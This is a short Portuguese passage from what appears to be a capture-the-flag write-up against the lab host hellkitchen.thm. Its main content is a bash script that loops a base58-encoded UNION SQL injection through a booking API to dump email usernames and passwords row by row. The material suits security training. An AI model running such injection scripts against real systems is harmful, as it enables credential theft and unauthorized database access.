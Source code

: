 ### Acessando tabelas
Primeiro, eu faço uma requisição normal e descubro um nome de usuário, mas tenho a desconfiança de que há mais usuários. Então, com o "OFFSET", consigo "andar" pelas linhas. Agora, é apenas automatizar para pegar e-mail e senha.
![](attachment/12c07adb77e48d9e937242614390efbd.png)

```
#!/bin/bash

# Loop de OFFSETs
for i in {0..20}; do
    SQL="SELECT email_username, email_password FROM email_access LIMIT 1 OFFSET $i"
    PAYLOAD="booking_id:3' UNION $SQL --"
    ENCODED=$(echo -n "$PAYLOAD" | base58)
    
    echo "[+] OFFSET $i"
    curl -s "http://hellkitchen.thm/api/booking-info?booking_key=$ENCODED"
    echo -e "\n"
done
```

